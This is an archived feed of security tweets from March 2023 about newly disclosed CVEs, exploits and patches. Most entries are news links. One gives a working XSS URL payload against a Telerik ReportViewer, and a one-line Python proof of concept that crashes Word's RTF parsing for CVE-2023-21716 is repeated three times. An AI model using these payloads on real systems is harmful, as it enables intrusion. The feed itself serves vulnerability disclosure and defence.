

# ido_cohen2
**https://twitter.com/ido_cohen2/status/1635740133533122570 _at 2023-03-14, 20:30:13_**
<blockquote>
🌐 A gold mine for attackers, Outlook zero-day vulnerability (CVE-2023-23397) 🚨

https://t.co/kAd89ju2Jd
</blockquote>

* https://www.bleepingcomputer.com/news/microsoft/microsoft-fixes-outlook-zero-day-used-by-russian-hackers-since-april-2022/

<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>19</code></td>
<td>Favorites: <code>53</code></td>
</tr></table>

---

# ryanaraine
**https://twitter.com/ryanaraine/status/1635710867395461120 _at 2023-03-14, 18:33:55_**
<blockquote>
Patch Tuesday: Microsoft pushed out fixes for at least 80 Windows flaws and called special attention to CVE-2023-23397, a critical-severity issue in Microsoft Outlook that has been exploited in zero-day attacks

Story: https://t.co/yeDy2JfLIx
</blockquote>

* https://www.securityweek.com/microsoft-patch-tuesday-zero-day-attacks/

<table><tr>
<td>Quotes: <code>3</code></td>
<td>Replies: <code>2</code></td>
<td>Retweets: <code>20</code></td>
<td>Favorites: <code>43</code></td>
</tr></table>

---

# 0xor0ne
**https://twitter.com/0xor0ne/status/1635615545838952449 _at 2023-03-14, 12:15:09_**
<blockquote>
Linux unauthenticated remote code execution in kernel context (CVE-2023-0210 affecting KSMBD)
CVE analysis writeup by @sysdig

https://t.co/1eKncHlLx7

#Linux #kernel #exploit #infosec #cybersecurity https://t.co/6wc4TuZRoX
</blockquote>

* https://sysdig.com/blog/cve-2023-0210-linux-kernel-unauthenticated-remote-heap-overflow/

<table><tr>
<td></td>
<td></td>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>4</code></td>
<td>Replies: <code>3</code></td>
<td>Retweets: <code>88</code></td>
<td>Favorites: <code>223</code></td>
</tr></table>

---

# TheHackersNews
**https://twitter.com/TheHackersNews/status/1635521673217597440 _at 2023-03-14, 06:02:08_**
<blockquote>
#Fortinet researchers have discovered an advanced and highly targeted threat actor that is exploiting a zero-day security #vulnerability (CVE-2022-41328) in FortiOS. This flaw could potentially result in the execution of arbitrary code.

Learn more: https://t.co/RVO93rE8Ht

#tech
</blockquote>

* https://thehackernews.com/2023/03/fortinet-fortios-flaw-exploited-in.html

<table><tr>
<td>Quotes: <code>5</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>44</code></td>
<td>Favorites: <code>53</code></td>
</tr></table>

---

# _JohnHammond
**https://twitter.com/_JohnHammond/status/1635382671256985600 _at 2023-03-13, 20:49:47_**
<blockquote>
We took a look at the #Veeam CVE-2023-27532 noise, and @calebjstewart crafted a PoC for the unauthenticated credential dump -- and a little Remote Code Execution💥😎

Huge thanks to @codewhitesec for raising the flag on this. Go patch! Patch your potatoes!
</blockquote>

<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>25</code></td>
<td>Favorites: <code>84</code></td>
</tr></table>

---

# HuntressLabs
**https://twitter.com/HuntressLabs/status/1635379321836564482 _at 2023-03-13, 20:36:28_**
<blockquote>
We dug into the latest Veeam Backup &amp; Replication vulnerability, CVE-2023-27532. Our researchers crafted a proof-of-concept exploit to dump credentials as an unauthenticated user and pushed it further to achieve arbitrary code execution. Read all about it: https://t.co/tQFPnkV8ux https://t.co/7gsTddZagX
</blockquote>

* https://hubs.ly/Q01GFNNJ0

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>4</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>12</code></td>
<td>Favorites: <code>50</code></td>
</tr></table>

---

# BitFriends1
**https://twitter.com/BitFriends1/status/1634871445758042112 _at 2023-03-12, 10:58:21_**
<blockquote>
I just wrote my first exploit for a real-world kernel vulnerability. It is about CVE-2022-24122. I did some cross-cache UAF attack to corrupt modprobe_path. You need to know the kernel base to prevent an oops during the exploit process. Reliability isn't great 😅 maybe like 5% https://t.co/OhZHjSBT7r
</blockquote>

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>3</code></td>
<td>Retweets: <code>21</code></td>
<td>Favorites: <code>91</code></td>
</tr></table>

---

# 0xdea
**https://twitter.com/0xdea/status/1634087233207648258 _at 2023-03-10, 07:02:10_**
<blockquote>
LPE #exploit for CVE-2023-21768 (#Windows Ancillary Function Driver for WinSock Elevation of Privilege #Vulnerability)

// by @chompie1337 and @FuzzySec 

https://t.co/zJBaukSzQF
</blockquote>

* https://github.com/xforcered/Windows_LPE_AFD_CVE-2023-21768

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>23</code></td>
<td>Favorites: <code>55</code></td>
</tr></table>

---

# elhackernet
**https://twitter.com/elhackernet/status/1633904736117112845 _at 2023-03-09, 18:57:00_**
<blockquote>
CVE-2023-21768 : Local Privilege Escalation PoC por @FuzzySec y @chompie1337

El exploit  funciona en sistemas Windows 11 22H2 
https://t.co/ZA2Gh4mKLR
</blockquote>

* https://github.com/xforcered/Windows_LPE_AFD_CVE-2023-21768

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>16</code></td>
<td>Favorites: <code>48</code></td>
</tr></table>

---

# piedpiper1616
**https://twitter.com/piedpiper1616/status/1633822116759101441 _at 2023-03-09, 13:28:42_**
<blockquote>
GitHub - chompie1337/Windows_LPE_AFD_CVE-2023-21768: LPE exploit for CVE-2023-21768 - https://t.co/y3ZrUTEA5k
</blockquote>

* https://github.com/chompie1337/Windows_LPE_AFD_CVE-2023-21768

<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>13</code></td>
<td>Favorites: <code>31</code></td>
</tr></table>

---

# chompie1337
**https://twitter.com/chompie1337/status/1633498392125997056 _at 2023-03-08, 16:02:20_**
<blockquote>
Releasing a Windows 11 LPE exploit by @FuzzySec and I. Exploits CVE-2023-21768, a vuln in afd.sys. Blog post soon!
https://t.co/iqQYsw5TmP https://t.co/8ypb4mZGtN
</blockquote>

* https://github.com/xforcered/Windows_LPE_AFD_CVE-2023-21768

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>17</code></td>
<td>Replies: <code>35</code></td>
<td>Retweets: <code>598</code></td>
<td>Favorites: <code>1978</code></td>
</tr></table>

---

# DragonJAR
**https://twitter.com/DragonJAR/status/1633489790594154496 _at 2023-03-08, 15:28:09_**
<blockquote>
¡Cuidado! 🛑 La nueva vulnerabilidad de Microsoft Office puede ejecutar código sin interacción del usuario 😱

Al pasado fallo RCE que afecta productos microsoft denominado #Follina (CVE-2022-30190), se le suma un nuevo problema de seguridad para Microsoft Word relacionado 🧵👇 https://t.co/7ibwbL0V0h
</blockquote>

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>4</code></td>
<td>Replies: <code>5</code></td>
<td>Retweets: <code>189</code></td>
<td>Favorites: <code>359</code></td>
</tr></table>

---

# TheHackersNews
**https://twitter.com/TheHackersNews/status/1633355002478575618 _at 2023-03-08, 06:32:33_**
<blockquote>
CISA has added 3 more flaws to its Known Exploited Vulnerabilities (KEV) catalog, citing evidence of active exploitation:

CVE-2022-35914 - Teclib GLPI RCE
CVE-2022-33891 - Apache Spark Command Injection
CVE-2022-28810 - Zoho ADSelfService Plus RCE

Read: https://t.co/37JzQHfQju
</blockquote>

* https://thehackernews.com/2023/03/cisas-kev-catalog-updated-with-3-new.html

<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>28</code></td>
<td>Favorites: <code>51</code></td>
</tr></table>

---

# IsrewyMohand
**https://twitter.com/IsrewyMohand/status/1633128561467965440 _at 2023-03-07, 15:32:45_**
<blockquote>
Yes,I was awarded 500$ for Xss Due To CVE-2017-9140 
https://Target/Telerik.ReportViewer.axd?optype=Parameters&amp;bgColor=_000000%22onload=%22prompt(1) https://t.co/3bWevJnKu2
</blockquote>

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>12</code></td>
<td>Retweets: <code>51</code></td>
<td>Favorites: <code>265</code></td>
</tr></table>

---

# SI_FalconTeam
**https://twitter.com/SI_FalconTeam/status/1633114934253965314 _at 2023-03-07, 14:38:36_**
<blockquote>
🚨 #CVE-2023-21716 is a new criticial #RCE in Microsoft Word exploited through RTF documents. Similar, older exploits are still very popular with threat actors.
We tested the PoC created by @jduck and created a first prototype #yara hunting rule 🔍
https://t.co/JFFoltTmTt
1/2🧵 https://t.co/UjCz0YVZKA
</blockquote>

* https://github.com/SIFalcon/Detection/blob/main/Yara/Hunting/HUNT_RTF_CVE_2023_21716.yar

<table><tr>
<td></td>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>2</code></td>
<td>Retweets: <code>23</code></td>
<td>Favorites: <code>69</code></td>
</tr></table>

---

# Gi7w0rm
**https://twitter.com/Gi7w0rm/status/1633104447168475138 _at 2023-03-07, 13:56:56_**
<blockquote>
⚠️ Critical Vulnerability in Microsoft Word .rtf file format was patched in February 2023.
CVE-2023-21716 found by @jduck is a heap corruption #vulnerability that allows remote code execution!
Triggered even in file explorer.
A #PoC for demonstrating the https://t.co/ViR3JIcFGd… https://t.co/oNQf0QWXuP
</blockquote>

* https://msrc.microsoft.com/update-guide/vulnerability/CVE-2023-21716

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>2</code></td>
<td>Retweets: <code>26</code></td>
<td>Favorites: <code>61</code></td>
</tr></table>

---

# cyber_advising
**https://twitter.com/cyber_advising/status/1633037060566130688 _at 2023-03-07, 09:29:10_**
<blockquote>
CVE-2023-1112: Path Traversal in Drag and Drop Multiple File Uploader PRO - Contact Form 7 version 5.0.6.1 allows unauthenticated remote attacker to upload files anywhere writable on the remote server.

PoC

https://t.co/eKyUMyAqHN https://t.co/nDVz6OwIM9
</blockquote>

* https://github.com/Nickguitar/Drag-and-Drop-Multiple-File-Uploader-PRO-Path-Traversal

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>41</code></td>
<td>Favorites: <code>133</code></td>
</tr></table>

---

# Dinosn
**https://twitter.com/Dinosn/status/1632969086052315138 _at 2023-03-07, 04:59:03_**
<blockquote>
PoC for Microsoft Word RCE (CVE-2023-21716) Published https://t.co/mMk7CAVxox
</blockquote>

* https://securityonline.info/poc-for-microsoft-word-rce-cve-2023-21716-published/

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>46</code></td>
<td>Favorites: <code>95</code></td>
</tr></table>

---

# __kokumoto
**https://twitter.com/__kokumoto/status/1632877236759183360 _at 2023-03-06, 22:54:05_**
<blockquote>
Microsoft Wordにおける遠隔コード実行脆弱性(CVE-2023-21716)の概念実証コード(PoC)が公開された。悪意あるRTF文書を開いた被害者の権限でコード実行が可能。PoCは脆弱性発見者のJoshua Drake氏によるもので、1ツイートに収まる長さまで短縮されている。 https://t.co/yvhbbFM77n
</blockquote>

* https://www.bleepingcomputer.com/news/security/proof-of-concept-released-for-critical-microsoft-word-rce-bug/

<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>19</code></td>
<td>Favorites: <code>32</code></td>
</tr></table>

---

# strinsert1Na
**https://twitter.com/strinsert1Na/status/1632746330350325760 _at 2023-03-06, 14:13:54_**
<blockquote>
TL にポコポコ python の one liner が流れてきていたけどあれホンモノの PoC だったんだな。。。

PoC exploit for recently patched Microsoft Word RCE is public (CVE-2023-21716) https://t.co/0BXpxIL1Ax
</blockquote>

* https://www.helpnetsecurity.com/2023/03/06/cve-2023-21716-poc/

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>17</code></td>
<td>Favorites: <code>45</code></td>
</tr></table>

---

# momika233
**https://twitter.com/momika233/status/1632711072095387648 _at 2023-03-06, 11:53:48_**
<blockquote>
CVE-2023-21716(Microsoft Word RCE vuln) Python PoC @momika233 

open("t3zt.rtf","wb").write(("{\\rtf1{\n{\\fonttbl" + "".join([ ("{\\f%dA;}\n" % i) for i in range(0,32761) ]) + "}\n{\\rtlch no crash??}\n}}\n").encode('utf-8'))
</blockquote>

<table><tr>
<td>Quotes: <code>3</code></td>
<td>Replies: <code>8</code></td>
<td>Retweets: <code>93</code></td>
<td>Favorites: <code>357</code></td>
</tr></table>

---

# akaclandestine
**https://twitter.com/akaclandestine/status/1632497070421471235 _at 2023-03-05, 21:43:26_**
<blockquote>
🤔CVE-2023-21716(Microsoft Word RCE vuln) Python PoC
open("t3zt.rtf","wb").write(("{\\rtf1{\n{\\fonttbl" + "".join([ ("{\\f%dA;}\n" % i) for i in range(0,32761) ]) + "}\n{\\rtlch no crash??}\n}}\n").encode('utf-8'))
</blockquote>

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>11</code></td>
<td>Favorites: <code>34</code></td>
</tr></table>

---

# jduck
**https://twitter.com/jduck/status/1632471544935923712 _at 2023-03-05, 20:02:00_**
<blockquote>
CVE-2023-21716 Python PoC (take 2) open("t3zt.rtf","wb").write(("{\\rtf1{\n{\\fonttbl" + "".join([ ("{\\f%dA;}\n" % i) for i in range(0,32761) ]) + "}\n{\\rtlch no crash??}\n}}\n").encode('utf-8'))
</blockquote>

<table><tr>
<td>Quotes: <code>24</code></td>
<td>Replies: <code>19</code></td>
<td>Retweets: <code>260</code></td>
<td>Favorites: <code>872</code></td>
</tr></table>

---

